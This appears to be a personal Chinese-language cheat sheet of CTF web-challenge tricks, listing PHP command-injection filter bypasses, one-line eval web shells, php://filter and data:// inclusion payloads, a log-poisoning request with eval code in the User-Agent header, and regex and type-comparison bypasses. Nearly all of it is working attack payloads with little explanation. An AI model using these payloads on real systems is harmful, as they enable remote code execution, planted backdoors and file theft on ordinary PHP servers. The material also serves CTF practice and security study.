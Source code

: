 # 笔记

<br><br>

## 杂笔记

                                      

* 在逆向(星号)((BYTE*)的时候用宏定义#define BYTE unsigned char即可正常使用

<br>

* system("tac flag.php")用来读取文件内容;

<br>

* ?c=system("tac%20fla(星号)")意思是c=system("tac flag");

<br>

### 在linux的shell里：
* ls /（查看所有目录)
* ls /home(进入home文件夹)
* cat /home/flag.txt(打开flag.txt)
* tac用法同上
* ls ../输出上一级目录的内容

<br><br>

## 命令绕过  

<br>

### 黑洞绕过：system($c." >/dev/null 2>&1");
* 它只会让分号后面的指令进入黑洞，所以这里直接绕过

* 双写分号绕过?c=tac f*;ls
* 双写&&绕过?c=tac f*%26%26ls（注：星号被绕过可以用问号）（[0-9]和%的过滤是不会过滤%26之类的）（）

* 带行号绕过?c=nl<fla''g.php%7C%7Cls(此方法可能要右键看源代码)

* 有$的情况下可以重命名flag.php成txt再直接访问:先执行?c=mv${IFS}fla?.php${IFS}a.txt%7C%7Cls 然后使用ls||ls看看有没有命名成功。成功后直接访问a.txt

* 其他注：?c=ls${IFS}/||ls查看根目录（ls /）

* ?c=cp${IFS}/fla?${IFS}/var/www/html/b.txt（将根目录（ls /）下的flag复制到可以直接在url的目录）





### 直接写php时：
#### 文件上传
* 经典一句话木马：<?php @eval($_POST[a]); ?>
* 短标签（过滤php）绕过：<?=eval($_POST[a]);?>（需要配合user.ini打开权限）
* ; 分号过滤：直接删除即可
* 过滤了（） ：使用tac
* 日志文件上传(用于过滤括号)：<?=include'/var/l'.'og/nginx/access.lo'.'g'?>,可以先访问url＋根目录，如果出现日志则包含成功.
* 非蚁剑连接：直接上传带有命令的图片马，访问马所在的目录

#### 过滤
* 过滤[ ]:<?=eval($_POST{a});?>(改成花括号)
* 过滤分号’；‘：<?=`cat ../flag*`?> <?=`tac ../f*`?> <?=`nl ../flag*`?>查看源码得flag
* 过滤括号：<?=`tac fl*`?>




<br>

### 直接eval()传参时：
* 特殊字符:"$""&"如果只是对c进行过滤，就可以通过包含另一个函数来绕过
* 做题前先看看对谁过滤，再看如何过滤
* c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
* c=include$_GET[1]?>&1=data://text/plain,<?php system("nl flag.php")?>
* c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
* 仅括号
* c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");
* c=show_source(next(array_reverse(scandir(pos(localeconv())))));
* c=highlight_file(next(array_reverse(scandir(dir))));
<br>

### 当include(c)时：直接使用协议绕过
* c=data://text/plain,<?php system('tac f*');?>
* ?u=php://filter/read=convert.base64-encode/resource=flag.php(任何打开文件，读取文件的操作都可以使用伪协议绕过)、
* ?filename=php://filter/convert.utf7.utf7/resource=flag.php
* php://filter/convert.iconv.utf8.utf16/resource=flag.php

<br>

#### php被过滤的时候:
* ?c=data://text/plain,<?=system("tac fla*")?>
* 注：include()只会处理<?php>里面的内容

<br>

#### $被过滤的时候:
* ?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* ?c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");

<br>

#### 日志文件包含：（抓包改UA，在UA末尾加东西）（用于include）
* 如：
````
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: 4e9bb3c0-1021-427e-81a3-42e5e6e13c39.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0<?php eval($_GET[2]);?>       \\在这里改噢
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
````



<br>

* 可以直接命令执行即可也可以用webshell后门工具连接

* ?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();

* ?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();


<br>

### 条件竞争漏洞：（相关：2023年梦极光线上赛web）（文件上传，文件包含等都能用）
- [条件竞争](https://www.freebuf.com/articles/web/275557.html)


<br><br>



## php特性绕过


<br>

### preg_match绕过:
* preg_match第二个参数为0时，会将0x开头当作十六进制,0开头当作八进制
* 多行绕过 php%0aPHP(用于多次preg_match)
* strpos($num, "0")意为开头不能为0，只需要加入%0a（换行）或%09（空格）即可绕过
#### 关于正则匹配preg_match(‘/^O:\d+/‘)的绕过的几种方法：
* 1.利用加号绕过（注意在url里传参时+要编码为%2B）直接在冒号和数字之间加上一个加号比如O:+4:"Demo":2:{s:10:" Demo file";s:8:"fl4g.php";}
* 2.利用数组对象绕过，如 serialize(array($a)); a为要反序列化的对象(序列化结果开头是a，不影响作为数组元素的$a的析构)。(没用过)

<br>

### 强弱比较绕过:

* 数组绕过：a[]=1&b[]=2
* md5撞库: 两个不用的明文各自经过MD5加密后，得到相等的hash值(多用于===)
* is_numeric()绕过:is_numeric()函数判断为数字时返回true，否则为false。如果数字为1234%00它就会判断为非数字，而在比较时这通常视为1234





<br>

### 其他总结
* 伪协议绕过:?u=php://filter/read=convert.base64-encode/resource=flag.php(任何打开文件，读取文件的操作都可以使用伪协议绕过)
* 伪协议绕过:?u=php://filter/read=convert.base64-encode/resource=/var/www/html/flag(任何打开文件，读取文件的操作都可以使用伪协议绕过)











